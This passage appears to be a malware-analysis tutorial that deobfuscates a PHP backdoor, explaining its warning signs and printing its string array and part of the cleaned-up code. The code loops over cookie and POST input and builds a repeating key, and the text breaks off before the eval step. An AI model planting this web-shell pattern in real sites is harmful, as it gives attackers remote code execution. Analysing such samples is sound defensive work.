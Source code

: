   ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

At first glance, this does not make much sense, though there are some
noticeable signs that should trigger the alarm bells:

-   The apparent use of obfuscation
-   The direct client interaction shown with \$\_COOKIE & \$\_POST
-   And the most alarming one, is the presence of the "eval" function

After cleaning it up abit, by adding some line breaks and indentation,
it starts to become clearer what is going on:

![](Pictures/10000201000003C600000239E95F755E361B52ED.png){width="6.2709in"
height="3.6945in"}

Its visible that:

-   A variable is initialized with some kind of string
-   An array is created with values concatenated from offsets in the
    above string
-   A loop over all key:value pairs from \$\_COOKIE & \$\_POST is
    happening
-   At some point an expression is evaluated

Let's take a look what the array contains after assignment:

  -----------------------------------------------------------
  \$lyqov = Array();\
  \$lyqov\[0\] = \"H\*\";\
  \$lyqov\[1\] = \"\#\";\
  \$lyqov\[2\] = \"e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9\";\
  \$lyqov\[3\] = \"count\";\
  \$lyqov\[4\] = \"str\_repeat\";\
  \$lyqov\[5\] = \"explode\";\
  \$lyqov\[6\] = \"substr\";\
  \$lyqov\[7\] = \"array\_merge\";\
  \$lyqov\[8\] = \"strlen\";\
  \$lyqov\[9\] = \"pack\";

  -----------------------------------------------------------

A lot of those value looks unmistakably like the names of PHP functions.

Let's make the script more readable with some Search/Replace, replacing
all the array references with its corresponding array value, as well as
some quick renaming of functions, variables and parameters.

  -----------------------------------------------------------------------------------------------------------------------------------
  \$mainArray = Array();\
  \$mainArray\[0\] = \"H\*\";\
  \$mainArray\[1\] = \"\#\";\
  \$mainArray\[2\] = \"e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9\";\
  \$mainArray\[3\] = \"count\";\
  \$mainArray\[4\] = \"str\_repeat\";\
  \$mainArray\[5\] = \"explode\";\
  \$mainArray\[6\] = \"substr\";\
  \$mainArray\[7\] = \"array\_merge\";\
  \$mainArray\[8\] = \"strlen\";\
  \$mainArray\[9\] = \"pack\";\
  \
  foreach (array\_merge(\$\_COOKIE, \$\_POST) as \$key =\> \$value){\
  \
  function func1(\$mainArray, \$key, \$func1\_p3){\
  return substr(str\_repeat(\$key . \"e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9\", (\$func1\_p3 / strlen(\$key)) + 1), 0, \$func1\_p3);\
  }\
  \
  function func2(\$mainArray, \$func2\_p2){\